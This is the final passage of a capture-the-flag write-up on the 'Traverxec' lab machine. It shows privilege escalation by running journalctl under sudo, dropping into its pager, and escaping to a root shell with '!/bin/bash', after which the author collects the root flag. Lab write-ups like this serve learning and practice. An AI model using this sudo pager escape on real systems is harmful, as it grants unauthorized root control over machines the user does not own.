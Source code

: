Lets try it:

```text
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Wed 2023-05-10 10:19:06 EDT, end at Wed 2023-05-10 10:53:36 EDT. --
May 10 10:19:08 traverxec systemd[1]: Starting nostromo nhttpd server...
May 10 10:19:08 traverxec systemd[1]: nostromo.service: Can't open PID file /var/nostromo/logs/nhttpd.pid (yet?) after start:
May 10 10:19:08 traverxec nhttpd[507]: started
May 10 10:19:08 traverxec nhttpd[507]: max. file descriptors = 1040 (cur) / 1040 (max)
May 10 10:19:08 traverxec systemd[1]: Started nostromo nhttpd server.
!/bin/bash
root@traverxec:/home/david/bin# whoami
root
```

Great, that worked! All that's left now is to grab the root.txt flag:

![root_flag.png](../assets/traverxec_assets/root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------------
